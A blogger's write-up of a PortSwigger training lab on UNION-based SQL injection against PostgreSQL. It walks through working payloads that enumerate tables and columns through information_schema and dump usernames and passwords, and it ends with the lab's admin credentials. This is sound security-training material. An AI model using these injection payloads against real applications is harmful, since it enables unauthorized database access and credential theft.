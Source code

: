 # SQL injection attack, listing the database contents on non-Oracle databases

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle), you'll learn: SQL injection attack, listing the database contents on non-Oracle databases! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063122.png)

**In the previous labs, we found an SQL injection vulnerability in the product category filter:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063233.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063256.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063343.png)

And we found **there are 2 columns in the current table, and both columns are accepting string data type.**

**To extract the username and password of all users, I'll:**

- Find out which DBMS(Database Management System) and it's version:

```sql
' UNION SELECT NULL,version()-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205063458.png)

- DBMS information: PostgreSQL version 12.12

Then we can list all the table names.

- List all the table names:

```sql
' UNION SELECT NULL,table_name FROM information_schema.tables-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065438.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065449.png)

That's way too many tables. Let's **exclude all the `pg` tables, which is the PostgreSQL default tables.**

- Excluding `pg` tables:

```sql
' UNION SELECT NULL,table_name FROM information_schema.tables WHERE table_name NOT LIKE '%pg%'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065559.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065617.png)

After some filtering, I found the `users_zmlpng` table look sussy. Let's **list all column names of this table**.

- List all column names of table `users_zmlpng`:
```sql
' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_zmlpng'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065749.png)

It has 2 columns: `username_hrympe` and `password_gxucte`. Let's extract those data!

- Extracting table `users_zmlpng` data:

```sql
' UNION SELECT NULL,username_hrympe||':'||password_gxucte FROM users_zmlpng-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065910.png)

We found `administrator` password!

- Username: administrator
- Password: 5eg7nhvdr5aag5h4n4i4

**Let's login as `administrator`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205065956.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-9/images/Pasted%20image%2020221205070008.png)

We're user `administrator`!!

# What we've learned:

1. SQL injection attack, listing the database contents on non-Oracle databases